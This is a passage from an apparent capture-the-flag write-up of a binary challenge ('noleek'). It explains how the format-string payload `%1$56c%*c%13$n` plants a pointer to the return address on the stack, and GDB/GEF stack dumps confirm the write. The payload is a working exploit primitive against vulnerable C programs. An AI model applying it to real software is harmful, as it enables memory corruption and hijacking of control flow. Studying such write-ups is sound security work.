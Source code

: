 ## Creating a Pointer to the Return Address

Initially, I didn't know how the variable field width works with POSIX positional arguments.
I thought that maybe `%9$*c` would take the width from the 9th argument and the value from the 10th argument.
There was a stack pointer on the stack at the position of the 9th argument, so I tried `%9$*c` and it seemed to work except that the resulting value was a little different than what I expected.
It turns out that the width is just the next unused argument and there happened to be a stack pointer in the argument registers, so just `%*c` would work.
Right before the first `fprintf` call, there's a stack pointer pointing to another stack pointer at `rsp + 0x40`, which corresponds to the 13th argument.

<pre><code><span style="color:#26A269"><b>gef➤  </b></span>deref
<span style="color:#2AA1B3">0x00007fffffffe0c0</span>│+0x0000: 0x000000000a6f6f66 (&quot;<span style="color:#A2734C">foo\n</span>&quot;?) <span style="color:#005DD0"><b> ← $rdx, $rsp, $rsi, $r8</b></span>
<span style="color:#2AA1B3">0x00007fffffffe0c8</span>│+0x0008: 0x0000000000000000
<span style="color:#2AA1B3">0x00007fffffffe0d0</span>│+0x0010: <span style="color:#C01C28">0x0000555555555290</span>  →  <span style="color:#585858"><b>&lt;__libc_csu_init+0&gt; push r15</b></span>
<span style="color:#2AA1B3">0x00007fffffffe0d8</span>│+0x0018: <span style="color:#C01C28">0x00005555555550a0</span>  →  <span style="color:#585858"><b>&lt;_start+0&gt; xor ebp, ebp</b></span>
<span style="color:#2AA1B3">0x00007fffffffe0e0</span>│+0x0020: <span style="color:#A347BA">0x00007fffffffe1e0</span>  →  0x0000000000000001
<span style="color:#2AA1B3">0x00007fffffffe0e8</span>│+0x0028: <span style="color:#26A269">0x000055555555b2a0</span>  →  0x00000000fbad2484
<span style="color:#2AA1B3">0x00007fffffffe0f0</span>│+0x0030: <span style="color:#C01C28">0x0000555555555290</span>  →  <span style="color:#585858"><b>&lt;__libc_csu_init+0&gt; push r15</b></span><span style="color:#005DD0"><b> ← $rbp</b></span>
<span style="color:#2AA1B3">0x00007fffffffe0f8</span>│+0x0038: <span style="color:#C01C28">0x00007ffff7e18d0a</span>  →  <span style="color:#585858"><b>&lt;__libc_start_main+234&gt; mov edi, eax</b></span>
<span style="color:#2AA1B3">0x00007fffffffe100</span>│+0x0040: <span style="color:#A347BA">0x00007fffffffe1e8</span>  →  <span style="color:#A347BA">0x00007fffffffe491</span>  →  <span style="color:#A2734C">&quot;/home/fedora/noleek/noleek_patched&quot;</span>
<span style="color:#2AA1B3">0x00007fffffffe108</span>│+0x0048: 0x0000000100000000
</code></pre>

I calculated the offset and was able to write the address of the return address onto the stack with `%1$56c%*c%13$n`.
The `%1$56c` outputs 56 characters, then the `%*c` outputs a number of characters equal to the lower four bytes of the stack pointer in `rdx` which is equal to `rsp`.
Now the number of characters outputted is the lower four bytes of `rsp + 56`, which is the address of the return address.
The `%13$n` writes this value to the location pointed to by the 13th argument, overwriting the lower four bytes of the existing stack pointer on the stack.
GDB and GEF confirm that the value pointed to by the stack pointer at `rsp + 0x40` is now a pointer to the return address:

<pre><code><span style="color:#26A269"><b>gef➤  </b></span>deref
<span style="color:#2AA1B3">0x00007ffe010d4320</span>│+0x0000: <span style="color:#A2734C">&quot;%42c%42$n\n&quot;</span>   <span style="color:#005DD0"><b> ← $rdx, $rsp, $rsi, $r8</b></span>
<span style="color:#2AA1B3">0x00007ffe010d4328</span>│+0x0008: 0x000a6e2433000a6e (&quot;<span style="color:#A2734C">n\n</span>&quot;?)
<span style="color:#2AA1B3">0x00007ffe010d4330</span>│+0x0010: <span style="color:#C01C28">0x000055ba5459b290</span>  →  <span style="color:#585858"><b>&lt;__libc_csu_init+0&gt; push r15</b></span>
<span style="color:#2AA1B3">0x00007ffe010d4338</span>│+0x0018: <span style="color:#C01C28">0x000055ba5459b0a0</span>  →  <span style="color:#585858"><b>&lt;_start+0&gt; xor ebp, ebp</b></span>
<span style="color:#2AA1B3">0x00007ffe010d4340</span>│+0x0020: <span style="color:#A347BA">0x00007ffe010d4440</span>  →  0x0000000000000001
<span style="color:#2AA1B3">0x00007ffe010d4348</span>│+0x0028: <span style="color:#26A269">0x000055ba554402a0</span>  →  0x00000000fbad2c84
<span style="color:#2AA1B3">0x00007ffe010d4350</span>│+0x0030: <span style="color:#C01C28">0x000055ba5459b290</span>  →  <span style="color:#585858"><b>&lt;__libc_csu_init+0&gt; push r15</b></span><span style="color:#005DD0"><b> ← $rbp</b></span>